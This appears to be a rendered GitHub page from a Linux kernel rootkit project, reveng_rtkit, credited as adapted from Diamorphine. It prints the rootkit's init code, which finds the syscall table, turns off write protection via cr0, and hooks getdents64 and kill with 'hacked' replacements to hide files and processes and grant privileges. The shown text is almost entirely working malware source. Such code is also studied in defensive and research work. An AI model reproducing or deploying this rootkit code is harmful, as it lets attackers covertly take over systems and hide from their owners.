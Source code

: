    This portion is totally taken from [diamorphine](https://github.com/m0nad/Diamorphine/)
                   
   1. This is the whole rootkit.c file.
```c
  // Test_rtkit.c

#include <linux/init.h>		/* Needed for the macros */
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for printing log level messages */
#include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
#include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
                            * To set those modified values we have to invoke commit_creds(). 
                            * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
#include "Test_hook_getdents64.h"


/* Function Prototypes */

static int      __init rootkit_init(void);
static void     __exit rootkit_exit(void);


// =================== Entry Function ====================

static int __init rootkit_init(void)
{
	printk(KERN_INFO "=================================================\n");
	printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
	printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

	__sys_call_table = get_syscall_table();
	if (!__sys_call_table)
		return -1;
	
	printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);


	/* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
	 *
	 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
	 *
	 * unsigned long (*read_cr0)(void);
	 */
	cr0 = read_cr0();

	// Storing original syscall
	orig_getdents64 = (tt_syscall)__sys_call_table[__NR_getdents64];
	orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

	//printk(KERN_EMERG "The value of cr0: %lx\n",cr0);

	unprotect_memory();

	// Editing syscall table targeting "getdents64" and "kill" syscall with our created "hacked_getdents64" and "hacked_kill".
	__sys_call_table[__NR_getdents64] = (unsigned long) hacked_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

	//printk(KERN_EMERG "The value of cr0: %lx\n",cr0);
```